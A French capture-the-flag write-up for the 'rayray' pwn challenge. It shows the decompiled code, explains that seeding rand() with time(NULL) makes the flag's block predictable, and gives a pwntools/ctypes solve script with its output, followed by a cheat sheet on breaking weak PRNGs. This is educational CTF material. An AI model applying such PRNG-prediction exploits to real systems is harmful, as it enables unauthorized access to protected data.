


> **Informations du Challenge**
> * **Événement :** Kali Team CTF 2026
> * **Catégorie :** Pwn / Binary Exploitation
> * **Fichiers fournis :** `rayray` (binaire ELF), `libc.so.6`, `ld-linux-x86-64.so.2`
> * **Cible :** `chall.kali-team.online:10011`
> * **Flag :** `KaliTeam{d41d1308-9edc-48e6-9a9e-dee9127be13e}`

---

##  1. Reconnaissance & Protections du Binaire

On commence par analyser le type de fichier et les sécurités actives avec `checksec` :

```bash
$ checksec --file=player/rayray
RELRO           STACK CANARY      NX            PIE             
Full RELRO      No canary found   NX enabled    PIE enabled
````

- **PIE (Position Independent Executable)** : Les adresses mémoire changent à chaque exécution.
    
- **NX (No-Execute)** : La pile n'est pas exécutable (pas de shellcode direct).
    
- **Full RELRO** : La GOT est en lecture seule (pas de GOT overwrite).
    

##  2. Reverse Engineering (Ghidra)

En ouvrant le binaire dans Ghidra, la fonction principale vulnérable est `vuln()` :

```c
void vuln(void) {
  uint uVar1;
  time_t tVar2;
  ssize_t sVar3;
  char local_1938 [16];
  char local_1928 [6408]; // Tableau de tampons pour 100 blocs
  uint local_20;
  int local_1c;
  FILE *local_18;
  int local_10;
  uint local_c;
  
  puts("Welcome To My Bounded Portal!\n");
  printf("The flag is here, but can you find where excatly?");

  // 1. Remplit 100 blocs de 0x40 (64 octets) avec du bruit aléatoire
  for (local_c = 0; (int)local_c < 100; local_c = local_c + 1) {
    uVar1 = rand();
    snprintf(local_1928 + (long)(int)local_c * 0x40, 0x40,
             " Block %d data: 0x%08X (No flag here)", (ulong)local_c, (ulong)uVar1);
  }

  // 2. Initialise le PRNG avec le timestamp Unix actuel
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);

  // 3. Choisi l'index de bloc où sera écrit le flag
  local_10 = rand();
  local_10 = local_10 % 100;

  // 4. Lit le flag et l'insère dans local_1928 au niveau du bloc "local_10"
  local_18 = fopen("./flag.txt","r");
  if (local_18 == (FILE *)0x0) {
    puts("Error: ./flag.txt not found! Please create it for local testing.");
    exit(1);
  }
  fgets(local_1928 + (long)local_10 * 0x40, 0x40, local_18);
  fclose(local_18);

  // 5. Demande à l'utilisateur quel bloc afficher
  puts("enter Block number: ");
  sVar3 = read(0, local_1938, 0xf);
  /* ... vérification bornes 0-99 ... */

  printf("DATA: %s\n", local_1928 + (long)(int)local_20 * 0x40);
  return;
}
```

## ⚡ 3. Analyse de la Vulnérabilité

> **Faille : Predictable Pseudo-Random Number Generator (PRNG)**
> 
> Le programme utilise l'horloge système (`time(NULL)`) pour initialiser la graine (_seed_) du générateur aléatoire :
> 
>
> 
> ```C
> srand(time(NULL));
> int block = rand() % 100;
> ```
> 
> Comme le timestamp Unix s'exprime en **secondes écoulées depuis le 1er janvier 1970**, un attaquant se connectant au serveur au même instant possède **exactement la même valeur de graine**.

En utilisant la même version de la bibliothèque C (`libc.so.6` fournie dans l'archive), notre script d'exploitation peut initialiser `srand()` avec le timestamp Unix actuel et calculer la valeur exacte transmise par le premier appel à `rand() % 100`.

## 4. Script d'Exploitation (Solve Script)

Pour synchroniser notre générateur avec celui du serveur, on utilise le module `ctypes` en Python afin de charger la `libc.so.6` exacte fournie par les organisateurs :

```python
#!/usr/bin/env python3
"""
Challenge: rayray (Bounded Portal) - Kali Team CTF 2026
Category: Pwn
Vulnerability: Predictable PRNG Seed (srand(time(NULL)))
"""

from pwn import *
import ctypes
import time

# Informations de connexion au serveur
HOST = "chall.kali-team.online"
PORT = 10011
LIBC_PATH = "./libc.so.6"

# Chargement de la LibC du challenge
libc = ctypes.CDLL(LIBC_PATH)

def solve():
    # 1. Établissement de la connexion
    r = remote(HOST, PORT)

    # 2. Capture du timestamp Unix au moment précis de l'interaction
    now = int(time.time())

    # 3. Reproduction de la séquence PRNG du binaire
    libc.srand(now)
    predicted_block = libc.rand() % 100

    log.info(f"Timestamp utilisé : {now}")
    log.success(f"Bloc prédit contenant le flag : {predicted_block}")

    # 4. Transmission de l'index calculé
    r.sendlineafter(b"enter Block number:", str(predicted_block).encode())

    # 5. Récupération et affichage du Flag
    output = r.recvall().decode(errors="ignore")
    print("\n[+] Output reçu du serveur :")
    print(output)

if __name__ == "__main__":
    solve()
```

## 🚩 5. Exécution & Capture du Flag

```bash
$ python3 trueraw.py 
[+] Opening connection to chall.kali-team.online on port 10011: Done
[*] Timestamp utilisé : 1785920784
[+] Bloc prédit : 66
[+] Receiving all data: Done (77B)
[*] Closed connection to chall.kali-team.online port 10011

[+] Réponse du serveur :

Reading block 66...
DATA: KaliTeam{d41d1308-9edc-48e6-9a9e-dee9127be13e}
```



## 📌 6. Cheat Sheet CTF : Attaques sur PRNG (Randomness)

> **Comment repérer et exploiter les faiblesses d'aléatoire en Pwn/Reversing**
> 
> 1. **`srand(time(NULL))`** :
>     
>     - **Vecteur :** Prédictibilité temporelle (résolution à la seconde).
>         
>     - **Solution :** Importer C LibC via `ctypes` en Python (`ctypes.CDLL("libc.so.6")`), se synchroniser sur le temps Unix local/serveur.
>         
> 2. **`srand(constante)` ou absence d'appel à `srand()`** :
>     
>     - **Vecteur :** Séquence 100% déterministe (la graine vaut `1` par défaut).
>         
>     - **Solution :** Exécuter le programme une fois en local sous GDB pour noter la suite de nombres générés.
>         
> 3. **`rand()` utilisé pour de la sécurité (Crypto/Tokens)** :
>     
>     - **Vecteur :** L'état interne d'un Linear Congruential Generator (LCG) peut être reconstruit à partir de quelques sorties successives ($N \ge 3$).
>         
>     - **Solution :** Utiliser des outils automatisés comme `randcrack` (pour Mersenne Twister / Python random) ou résoudre le système LCG via Z3/SageMath.
>
